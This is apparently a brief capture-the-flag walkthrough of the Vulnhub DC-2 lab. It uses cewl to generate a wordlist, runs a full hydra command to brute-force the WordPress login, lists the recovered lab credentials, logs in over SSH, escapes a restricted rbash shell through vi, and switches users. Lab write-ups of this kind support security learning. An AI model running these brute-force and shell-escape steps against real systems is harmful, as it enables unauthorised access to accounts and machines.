 using flag\-1 hint

cewl [http://dc-2/](#http://dc-2/)
\-w Vulnhub/wordlist\.txt

use wordlist to bruteforce wordpress login
-  **hydra \-l tom \-P Vulnhub/wordlist\.txt dc\-2 http\-post\-form "/wp\-login\.php:log=tom\&pwd=^PASS^\&wp\-submit=Log\+In\&redirect\_to=http%3A%2F%2Fdc\-2%2Fwp\-admin%2F\&testcookie=1:The password you entered for the username"**
-  tom:parturient
-  jerry:adipiscing

-  **ssh tom@192\.168\.0\.131 \-p 7744
**
the shell is locked to rbash

using vi

-  :set shell=/bin/sh
-  :shell

$ nano flag3\.txt
$ nano flag4\.txt
$ su jerry : adipscing
**
**